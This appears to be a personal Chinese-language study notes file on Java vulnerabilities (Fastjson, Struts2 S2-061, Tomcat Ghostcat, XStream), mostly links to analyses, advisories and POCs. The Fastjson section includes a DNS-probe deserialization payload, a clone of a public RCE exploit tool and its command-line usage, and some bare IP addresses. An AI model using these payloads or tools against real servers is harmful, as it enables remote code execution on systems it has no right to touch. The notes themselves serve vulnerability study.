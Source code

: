# java 漏洞

https://www.upguard.com/blog/top-10-java-vulnerabilities-and-how-to-fix-them
https://snyk.io/blog/162-security-vulnerabilities-disclosed-in-javas-top-10-libraries-including-jackson-spring-and-jetty/

## Fastjson

<!-- 
sec\udesk.sec.java.md
fastjson.20200325.md
-->

[Fastjson < 1.2.68版本反序列化漏洞分析篇](https://www.anquanke.com/post/id/219731)

[Fastjson68版本绕过autotype原理及利用场景分析](https://www.freebuf.com/vuls/240392.html)

[Fastjson <1.2.48 入门调试](https://www.anquanke.com/post/id/209915)

[Fastjson 1.2.24反序列化漏洞深度分析](https://www.anquanke.com/post/id/211035)

[Fastjson1.2.24漏洞复现详细过程](https://www.freebuf.com/articles/web/242712.html)

[不安全的序列化](https://www.freebuf.com/articles/web/244476.html)

[Fastjson批量检查及一键利用工具](https://www.freebuf.com/sectool/244113.html)

[fastjson<=1.2.62远程代码执行漏洞通告](https://www.anquanke.com/post/id/199527)

[CVE-2020-8840: FasterXML/jackson-databind 远程代码执行漏洞通告](https://www.anquanke.com/post/id/199519)

访问地址: 118.193.36.37:43170

{ "zeo": {"@type":"java.net.Inet4Address","val":"m9ng8n.dnslog.cn"]]
https://github.com/mrknow001/fastjson_rec_exploit
git clone git@github.com:mrknow001/fastjson_rec_exploit.git
118.89.54.172
python3 fastjson.py -u http://192.168.1.3/ -s 192.168.1.1 -c "touch /tmp/test.txt
python fastjson_rce_exploit.py -u http://192.168.56.107:8090/ -s 192.168.56.1 -c "touch /tmp/test.txt"

https://github.com/mrknow001/fastjson_rec_exploit/archive/master.zip

[vulhub](https://vulhub.org/)

[基础篇-XSS盲打](https://cloud.tencent.com/developer/article/1078996)


## Struts2

+ [x] Struts2 真的落后了吗? 是 https://github.com/apache/struts/releases 基本不更新了
+ [ ] 现在流行的又是什么? Spring+SpringMVC+Mybatis

Apache Struts 官方披 露S2-061 远程代码执行漏洞（ CVE-2020-17530 ）。
当开发人员强制使用OGNL解析时，某些特殊的TAG属性可能会被双重解析，进而导致远程代码执行。

参考链接： https://cwiki.apache.org/confluence/display/WW/S2-061

[内含POC丨漏洞复现之S2-061（CVE-2020-17530）](https://www.anquanke.com/post/id/225252)
[Struts2 S2-061漏洞分析(CVE-2020-17530)](https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g)


https://struts.apache.org/#
https://struts.apache.org/announce#a20201208

[Struts2-059 远程代码执行漏洞（CVE-2019-0230）分析](https://www.anquanke.com/post/id/216629)

Struts 2.3.24
https://archive.apache.org/dist/struts/2.3.24/struts-2.3.24-all.zip

TODO: idea创建 struts2项目: 应该需要升级idea
Failed to download 'http://central.maven.org/maven2/org/apache/struts/struts2-core/2.5.14.1/struts2-core-2.5.14.1.jar'
central.maven.org 这个域名已经没有了

        <url>https://repo1.maven.org/maven2</url>
https://stackoverflow.com/questions/62075914/intellij-create-sample-struts-web-project-with-java-then-show-this-error
because: "Beginning January 15, 2020, The Central Repository will no longer support communication over HTTP" (https://blog.sonatype.com/central-repository-moving-to-https)

[Struts2入门这一篇就够了](https://juejin.im/post/6844903573545811982)

## fastjson

[Fastjson历史漏洞研究（一）](https://www.anquanke.com/post/id/215753)

[FastJson历史漏洞研究（二）](https://www.anquanke.com/post/id/218268)

## Tomcat

### tomcat ghostcat Tomcat-Ajp

AJP Connector，它使用的是 AJP 协议（Apache Jserv Protocol）是定向包协议。
因为性能原因，使用二进制格式来传输可读性文本，它能降低 HTTP 请求的处理成本，因此主要在需要集群、反向代理的场景被使用。

https://github.com/hypn0s/AJPy

[POC](https://github.com/0nise/CVE-2020-1938)

[tenable Nessus: CVE-2020-1938: Ghostcat](https://zh-cn.tenable.com/blog/cve-2020-1938-ghostcat-apache-tomcat-ajp-file-readinclusion-vulnerability-cnvd-2020-10487?tns_redirect=true)

[Apache Tomcat - AJP 'Ghostcat File Read/Inclusion](https://www.exploit-db.com/exploits/48143)

xray 长亭科技 tomcat ghostcat 扫描
https://www.chaitin.cn/zh/ghostcat

CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告
https://www.anquanke.com/post/id/199351

CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析
https://www.anquanke.com/post/id/199448

CVE-2020-1938：Apache Tomcat服务器任意文件读取/包含漏洞通告
https://www.anquanke.com/post/id/199351

CVE-2020-1938 : Tomcat-Ajp 协议漏洞分析
https://www.anquanke.com/post/id/199448

[Google Search XSS漏洞分析](https://www.anquanke.com/post/id/213422)
sanitize

### xstream

[20201214 CVE-2020-26258/26259：XStream 反序列化漏洞通告](https://www.anquanke.com/post/id/225489)
> [XStream 反序列化漏洞（CVE-2020-26258 & 26259）的复现与分析](https://www.anquanke.com/post/id/226241)
CVE-2020-26259 只要（运行 XStream 服务的）进程有足够的权限，那么当 XStream 在反序列化数据时，攻击者构造特定的XML/JSON 请求，可以造成任意文件删除。
CVE-2020-26258 运行 XStream 的服务在反序列化数据时，攻击者构造特定的 XML/JSON 请求，可以造成服务端请求伪造。

[20201119 XStream反序列化CVE-2020-26217漏洞分析](https://www.anquanke.com/post/id/222830)
